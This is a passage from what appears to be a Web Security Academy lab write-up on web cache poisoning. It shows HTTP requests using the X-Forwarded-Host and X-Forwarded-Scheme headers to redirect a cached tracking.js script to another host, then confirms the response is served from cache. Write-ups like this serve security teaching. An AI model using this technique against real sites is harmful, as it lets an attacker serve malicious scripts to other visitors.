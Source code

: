 2. Running Param Miner we identify following header - `x-forwarded-scheme`
	   - For whatever reason Param Miner didn't find it but my guts say there should also be `X-Forwarded-Host`.

3. Add the header to the `/resources/js/tracking.js` Request
```http
-
Cookie: session=ogDUdsWx7wBqWyTRZ2zM6hWkemsfzYbP
X-Forwarded-Host: my.web-security-academy.net
X-Forwarded-Scheme: http
```

Optionally add parameter `cb=123` to the path as Cache Buster.

Notice we are now redirected.

```http
HTTP/2 302 Found
Location: https://my.web-security-academy.net/resources/js/tracking.js
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 0


```

4. Changing the `X-Forwarded-Host`to
```
X-Forwarded-Host: my.web-security-academy.net/test
```

Results in Response with new location
```
Location: https://my.web-security-academy.net/test/resources/js/tracking.js
```

So whatever we set it gets `/resources/js/tracking.js` appended to the end.

5. Running the same Request again we get 

```http
-
Cache-Control: max-age=30
Age: 12
X-Cache: hit
```

6. Test the same but remove the cookie

```http
-
Cache-Control: max-age=30
Age: 26
X-Cache: hit
Content-Length: 0
```
